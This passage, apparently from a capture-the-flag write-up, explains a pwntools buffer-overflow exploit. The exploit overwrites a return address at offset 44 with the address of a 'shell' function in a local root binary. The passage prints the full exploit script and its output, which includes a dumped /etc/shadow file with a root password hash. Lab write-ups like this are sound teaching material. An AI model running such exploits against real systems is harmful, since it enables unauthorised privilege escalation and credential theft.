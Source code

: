 ``` python
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
```

shell_func is used to hold the memory address of the shell function. Now we need to form the payload.

fit allows us to form a payload by combining characters and our memory address. To send the payload we can use a method in our proc variable, proc.sendline(), which just sends whatever data we want to the binary. Finally we can use proc.interactive(), to view the full output of the process.

The full code is as follows

```python
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
payload = fit({
44: shell_func # this adds the value of shell_func after 44 characters
})
proc.sendline(payload)
proc.interactive()
```
```
pingu@ubuntu:~$ python overflow.py
[+] Starting local process '/opt/secret/root': pid 966
[*] '/opt/secret/root'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[*] Switching to interactive mode
[*] Process '/opt/secret/root' stopped with exit code -11 (SIGSEGV) (pid 966)
root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18277:0:99999:7:::
uuidd:*:18277:0:99999:7:::
```